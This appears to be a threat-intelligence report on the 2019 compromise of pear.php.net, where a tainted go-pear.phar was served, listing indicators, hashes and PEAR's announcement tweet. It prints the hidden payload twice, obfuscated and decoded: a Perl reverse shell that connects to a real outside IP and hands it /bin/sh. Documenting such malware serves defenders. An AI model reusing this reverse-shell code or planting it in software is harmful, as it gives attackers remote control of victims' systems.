 # Threat Report: 2019-01-21: Incident - pear.php.net - compromised and delivering malicious package


## Key Intelligence
* Date: 2019-01-21
* Threat Level: 3 (Low)
* Tags: type:OSINT, osint:lifetime="perpetual", osint:certainty="50", tlp:white, circl:incident-classification="system-compromise", ecsirt:intrusions="compromised", europol-incident:information-security="unauthorized-access", europol-incident:information-security="unauthorized-modification", veris:security_incident="Confirmed"

---

## Indicators of Compromise (IOCs)
### Artifacts dropped
* md5: <md5> — md5sum of the infected file

### Network activity
* ip-dst: 104.131.154.154

### Payload delivery
* text: ${"\x47\x4cO\x42\x41\x4cS"}["ki\x72\x69\x68\x71\x68"]="st\x72";${${"GLOBA\x4c\x53"}["k\x69ri\x68\x71\x68"]}="\x75\x73\x65\x20\x53\x6f\x63\x6b\x65\x74\x3b\x0a\x70\x72\x69\x6e\x74\x20\x22\x73\x74\x61\x72\x74\x65\x64\x22\x3b\x0a\x24\x68\x6f\x73\x74\x20\x3d\x20\x22\x31\x30\x34\x2e\x31\x33\x31\x2e\x31\x35\x34\x2e\x31\x35\x34\x22\x3b\x0a\x24\x70\x6f\x72\x74\x20\x3d\x20\x34\x34\x33\x3b\x0a\x24\x70\x72\x6f\x74\x6f\x20\x3d\x20\x67\x65\x74\x70\x72\x6f\x74\x6f\x62\x79\x6e\x61\x6d\x65\x28\x22\x74\x63\x70\x22\x29\x20\x7c\x7c\x20\x65\x78\x69\x74\x28\x29\x3b\x0a\x73\x6f\x63\x6b\x65\x74\x28\x53\x45\x52\x56\x45\x52\x2c\x20\x50\x46\x5f\x49\x4e\x45\x54\x2c\x20\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x2c\x20\x24\x70\x72\x6f\x74\x6f\x29\x20\x7c\x7c\x20\x65\x78\x69\x74\x28\x29\x3b\x0a\x6d\x79\x20\x24\x74\x61\x72\x67\x65\x74\x20\x3d\x20\x69\x6e\x65\x74\x5f\x61\x74\x6f\x6e\x28\x24\x68\x6f\x73\x74\x29\x3b\x0a\x69\x66\x20\x28\x21\x63\x6f\x6e\x6e\x65\x63\x74\x28\x53\x45\x52\x56\x45\x52\x2c\x20\x70\x61\x63\x6b\x20\x22\x53\x6e\x41\x34\x78\x38\x22\x2c\x20\x32\x2c\x20\x24\x70\x6f\x72\x74\x2c\x20\x24\x74\x61\x72\x67\x65\x74\x29\x29\x20\x7b\x0a\x20\x20\x70\x72\x69\x6e\x74\x20\x22\x6e\x6f\x74\x20\x63\x6f\x6e\x6e\x65\x63\x74\x65\x64\x22\x3b\x0a\x20\x20\x65\x78\x69\x74\x28\x29\x3b\x0a\x7d\x0a\x69\x66\x20\x28\x21\x66\x6f\x72\x6b\x28\x20\x29\x29\x20\x7b\x0a\x20\x20\x70\x72\x69\x6e\x74\x20\x22\x63\x68\x69\x6c\x64\x22\x3b\x0a\x20\x20\x6f\x70\x65\x6e\x28\x53\x54\x44\x49\x4e\x2c\x22\x3e\x26\x53\x45\x52\x56\x45\x52\x22\x29\x3b\x0a\x20\x20\x6f\x70\x65\x6e\x28\x53\x54\x44\x4f\x55\x54\x2c\x22\x3e\x26\x53\x45\x52\x56\x45\x52\x22\x29\x3b\x0a\x20\x20\x6f\x70\x65\x6e\x28\x53\x54\x44\x45\x52\x52\x2c\x22\x3e\x26\x53\x45\x52\x56\x45\x52\x22\x29\x3b\x0a\x20\x20\x70\x72\x69\x6e\x74\x28\x22\x65\x78\x65\x63\x22\x29\x3b\x0a\x20\x20\x65\x78\x65\x63\x20\x7b\x22\x2f\x62\x69\x6e\x2f\x73\x68\x22\x7d\x20\x22\x2d\x62\x61\x73\x68\x22\x20\x2e\x20\x22\\0\x22\x20\x78\x20\x34\x3b\x0a\x20\x20\x70\x72\x69\x6e\x74\x28\x22\x65\x78\x69\x74\x22\x29\x3b\x0a\x20\x20\x65\x78\x69\x74\x28\x30\x29\x3b\x0a\x7d";@exec("p\x65\x72\x6c -e \x27$str\x27 \x3e /dev/n\x75ll\x202\x3e/de\x76/\x6e\x75\x6c\x6c");

## Objects
### microblog — Microblog post like a Twitter tweet or a post on a Facebook wall.
* [Other] text: A security breach has been found on the http://pear.php.net  webserver, with a tainted go-pear.phar discovered. The PEAR website itself has been disabled until a known clean site can be rebuilt. A more detailed announcement will be on the PEAR Blog once it's back online.
* [Other] text: Twitter
* [External analysis] link: https://twitter.com/pear/status/1086634389465956352
* [Other] text: pear

### file — File object describing a file with meta-information
* [Payload delivery] malware-sample: f74c4406c53e5b0187b8b1cfeb5b74f88ac9294acca29bdba8bd11371b2245e8|1e26d9dd3110af79a9595f1a77a82de7
* [Payload delivery] filename: f74c4406c53e5b0187b8b1cfeb5b74f88ac9294acca29bdba8bd11371b2245e8
* [Payload delivery] md5: <md5>
* [Payload delivery] sha1: <sha1>
* [Payload delivery] sha256: <sha256>
* [Other] size-in-bytes: 3604833

### script — Object describing a computer program written to be run in a special run-time environment. The script or shell script can be used for malicious activities but also as support tools for threat analysts.
* [Other] text: ${"GLOBALS"}["kirihqh"]="str";${${"GLOBALS"}["kirihqh"]}="use Socket;
print "started";
$host = "104.131.154.154";
$port = 443;
$proto = getprotobyname("tcp") || 
socket(SERVER, PF_INET, SOCK_STREAM, $proto) || 
my $target = inet_aton($host);
if (!connect(SERVER, pack "SnA4x8", 2, $port, $target)) {
  print "not connected";
  
}
if (!fork( )) {
  print "child";
  open(STDIN,">&SERVER");
  open(STDOUT,">&SERVER");
  open(STDERR,">&SERVER");
  print("exec");
  exec {"/bin/sh"} "-bash\\0" x 4;
  print("exit");
  
}";@exec("perl -e '$str' > /dev/null 2>/dev/null");
* [Other] text: PHP
* [Other] text: Malicious

